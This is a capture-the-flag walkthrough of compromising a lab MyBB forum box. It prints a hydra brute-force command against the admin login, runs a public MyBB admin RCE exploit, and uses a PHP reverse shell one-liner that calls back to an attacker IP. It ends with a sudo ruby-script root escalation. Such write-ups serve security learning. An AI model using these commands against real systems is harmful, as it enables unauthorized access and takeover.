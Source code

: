 ```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](../images/Pasted%20image%2020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](../images/Pasted%20image%2020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](../images/Pasted%20image%2020241029143334.png)

Let's go to the forum:

![](../images/Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](../images/Pasted%20image%2020241029143517.png)

![](../images/Pasted%20image%2020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](../images/Pasted%20image%2020241029143732.png)
We can see we only have the admin user registered, 


![](../images/Pasted%20image%2020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](../images/Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](../images/Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](../images/Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](../images/Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](../images/Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](../images/Pasted%20image%2020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](../images/Pasted%20image%2020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](../images/Pasted%20image%2020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](../images/Pasted%20image%2020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](../images/Pasted%20image%2020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](../images/Pasted%20image%2020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](../images/Pasted%20image%2020241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](../images/Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](../images/Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](../images/Pasted%20image%2020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](../images/Pasted%20image%2020241029152250.png)


```

And just like that, the CTF is done!